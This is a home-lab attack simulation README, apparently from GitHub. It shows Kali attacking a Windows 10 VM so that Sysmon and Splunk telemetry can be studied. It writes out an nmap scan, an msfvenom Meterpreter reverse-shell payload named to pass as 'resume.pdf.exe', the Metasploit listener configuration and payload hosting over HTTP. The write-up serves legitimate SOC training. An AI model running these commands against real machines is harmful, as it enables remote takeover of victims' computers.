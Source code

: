 # Home Lab Attack Simulation & Telemetry Generation
<p>This project was designed as a simulation of a real-world cyberattack, conducted in a virtual lab environment. Its primary goal is to demonstrate how endpoint telemetry can be generated, collected, and analyzed using widely available tools such as Sysmon and Splunk. This project helped me gain hands-on experience with attacker techniques, logging mechanisms, and security monitoring—all of which are essential for working in a SOC environment.</p>

# Prerequisites
<ul>
  <li>Kali Linux – As the attacker machine</li>
  <li>Windows 10 – As the target machine</li>
  <li>Splunk must be installed on the Windows VM.</li>
  <li>Sysmon must be installed using the Splunk Add-on for Sysmon and configured on the Windows VM to generate detailed logs</li>
</ul>

# Simulation
<p>To set up the lab, I used VirtualBox to run two virtual machines: Kali Linux (as the attacker) and Windows 10 (as the target). Both VMs were configured to use an "Internal Network" mode in VirtualBox to ensure isolated communication within the same virtual network. This configuration prevents interaction with the outside internet while allowing both machines to communicate securely.</p>

<p align="center">
    <img src="https://github.com/bagaskarapd/Attack-Simulation/blob/main/Screenshots/%F0%9F%9B%A1%EF%B8%8F%20Home%20Lab%20Attack%20Simulation%20&%20Telemetry%20Generation%20-%20visual%20selection.png?raw=true">
</p>

<p>To ensure stable communication and easier referencing, each virtual machine was assigned a static IP address. Kali Linux was configured with an IP address such as 192.168.56.100, while Windows 10 was assigned 192.168.56.110. These IPs fall within the same subnet and enable consistent access throughout the simulation. This setup ensures that tools like Nmap and Metasploit can reliably interact with the Windows VM during reconnaissance and exploitation.</p>

<p>The simulation begins with reconnaissance. Using Kali Linux, I performed a network scan with Nmap to discover open ports and services on the Windows target.</p>
<pre>
  nmap -A 192.168.56.110 -Pn
</pre>
<p align="center">
    <img src="https://github.com/bagaskarapd/Attack-Simulation/blob/main/Screenshots/Nmap.png?raw=true">
</p>
<ul>
  <p>The scan identified multiple open ports, including:</p>
  <li>135/tcp (Microsoft RPC)</li>
  <li>139/tcp (NetBIOS-SSN)</li>
  <li>445/tcp (Microsoft-DS)</li>
  <li>8000/tcp (Splunkd HTTP interface)</li>
  <li>8089/tcp (Splunkd management port)</li>
</ul>

<p>Next, I used msfvenom to generate a simple Meterpreter reverse shell payload:</p>

<pre>msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.56.100 lport=4444 -f exe -o resume.pdf.exe</pre>

<p>This creates an executable file named resume.pdf.exe that, when executed, will attempt to connect back to the Kali Linux machine on port 4444.</p>

<p align="center">
    <img src="https://github.com/bagaskarapd/Attack-Simulation/blob/main/Screenshots/Msfvenom.png?raw=true">
</p>

<p>I then set up a listener in Metasploit to catch the reverse shell:</p>
<pre>
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.56.100
set LPORT 4444
run
</pre>

<p>To deliver the payload, I hosted it using a Python HTTP server:</p>

<pre>python3 -m http.server 9999</pre>

<p>After disabling Windows Defender for this test, I downloaded and executed the payload on the Windows VM.</p>
<p>I confirmed the reverse connection using the following command:</p>
<pre>netstat -anob</pre>

